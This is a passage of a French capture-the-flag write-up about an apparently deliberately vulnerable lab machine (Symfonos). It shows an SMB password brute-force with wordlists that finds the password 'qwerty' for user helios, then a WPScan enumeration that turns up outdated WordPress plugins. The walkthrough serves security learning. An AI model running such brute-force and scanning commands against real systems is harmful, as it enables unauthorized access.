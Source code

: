 J'avais lancé une attaque brute force avec mon outil [GitHub - devl00p/brute_smb_share: Brute force a SMB share](https://github.com/devl00p/brute_smb_share) qui trouve immédiatement le mot de passe de `helios` :

```bash
$ python3 brute_smb_share.py 192.168.56.112 helios users.txt rockyou.txt 
Success with user helios and password qwerty
        research.txt
        todo.txt
```

Cependant le mot de passe était aussi mentionné dans le fichier `attention.txt` :

> Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'!    
> 
> Next person I find using one of these passwords will be fired!  
> 
> -Zeus

Les nouveaux fichiers texte auquel on a accès sont une description du dieu `Helios` (`research.txt`) :

> Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at  
> night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.

Ainsi qu'une `todo` mentionnant un path sur le serveur web :

> 1. Binge watch Dexter  
> 2. Dance  
> 3. Work on /h3l105

A cette adresse on trouve un Wordpress qui semble configuré pour le nom d'hôte `symfonos.local`.

## You got mail

Il est important de le spécifier lors du scan avec `WPscan` sans quoi l'énumération ne retourne rien.

```bash
docker run --add-host symfonos.local:192.168.56.112 -it --rm wpscanteam/wpscan --url http://symfonos.local/h3l105/ -e ap,at,u
```

On trouve un étrange plugin nommé `mail-masta` :

```
[+] mail-masta
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt

[+] site-editor
 | Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
```